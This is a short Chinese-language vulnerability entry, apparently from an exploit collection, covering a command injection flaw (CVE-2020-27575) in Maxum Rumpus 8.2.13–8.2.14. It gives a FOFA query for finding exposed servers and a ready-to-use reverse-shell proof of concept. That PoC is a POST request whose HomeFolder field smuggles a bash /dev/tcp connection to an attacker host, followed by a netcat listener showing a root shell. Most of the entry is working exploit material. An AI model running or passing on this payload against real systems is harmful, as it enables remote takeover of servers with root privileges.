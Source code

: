 # Maxum Rumpus 命令注入漏洞（CVE-2020-27575）

Max Rumpus 8.2.13和8.2.14存在命令注入漏洞。Web管理用户的地方。编辑用户表单中HomeFolder参数由于验证不足存在命令注入漏洞，从管理帐户向服务器发送恶意POST请求将导致命令执行。

FOFA：

```
app="maxum-Rumpus"
```

影响版本：

8.2.13-8.2.14

反弹shell PoC：


```
POST /RAPR/DefineUsersSet.html HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 72
Origin: http://X.X.X.X
Connection: close
Referer: http://X.X.X.X/
Cookie: UserAccount=_UwtsA9IFxh91RR; SessionID=1143479735

Username=user&HomeFolder=/'`bash>%26/dev/tcp/Y.Y.Y.Y/4444+0>%261`/


% nc -l 4444
whoami
root
```

ref：

* https://nvd.nist.gov/vuln/detail/CVE-2020-27575
* https://tvrbk.github.io/cve/2021/03/07/rumpus.html
